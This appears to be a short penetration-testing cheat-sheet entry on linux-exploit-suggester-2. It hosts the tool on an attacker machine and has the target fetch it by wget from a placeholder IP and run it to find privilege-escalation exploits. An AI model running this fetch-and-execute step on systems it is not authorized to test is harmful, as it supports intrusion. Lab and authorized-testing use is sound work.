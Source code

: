 # Exploit Suggester
***

## Attacker Machine
```sh
git clone https://github.com/jondonas/linux-exploit-suggester-2

# http server
python3 -m http.server 9999
```

## Target Machine
```sh
wget http://IP:9999/linux-exploit-suggester-2.pl

# execute
perl linux-exploit-suggester-2.pl
```
